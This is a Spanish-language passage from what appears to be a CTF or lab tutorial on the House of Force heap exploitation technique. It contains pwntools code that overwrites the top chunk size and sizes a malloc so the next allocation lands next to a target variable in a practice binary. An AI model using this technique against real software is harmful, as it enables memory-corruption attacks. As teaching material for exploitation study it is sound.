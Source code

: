 ```python
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# El binario nos da la direccion base del heap.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# =-=-=- EXPLOIT -=-=-=

# La variable "heap" contiene el inicio del heap.
info(f"heap: 0x{heap:02x}")

# Los simbolos del programa se acceden mediante "elf.sym.<symbol name>".
info(f"target: 0x{elf.sym.target:02x}")

# Guardamos un bloque lleno de As
malloc(24, b"A"*24)

# Con delta() calculamos la distancia entre heap y main.
info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")

# =============================================================================

io.interactive()
```

Lo primero que debemos hacer es repetir la operación anterior y en la primera llamada a `malloc`, llenar un bloque y sobrescribir la cabecera del top chunk con `0xffffffffffffffff`:

```python
malloc(24, b"A"*24+p64(0xffffffffffffffff))
```

Ahora podremos reservar la cantidad de memoria que queramos. El siguiente paso es reservar un bloque que quede justo antes de la variable target, para ello utilizamos `delta` y reservamos otro bloque:

```python
# Tenemos que sumar 0x20 a heap para emepzar a contar a partir del primer bloque que almacenamos (desde el inicio del top chunk)
# De igual forma, restamos 0x20 a la dirección de target para quedarnos a exactamente un bloque de target
distancia = delta(heap+0x20, elf.sym.target)
malloc(distancia, "A")
```
	Podríamos incluir target en el bloque que estamos reservando, pero tendríamos que escribir muchísimos datos hasta llegar a la zona de datos y podríamos sobrescribir algo importante.
	
Ahora mismo, si ejecutamos esto y vemos la memoria alrededor de `target` con `dq target-16`, veremos lo siguiente:
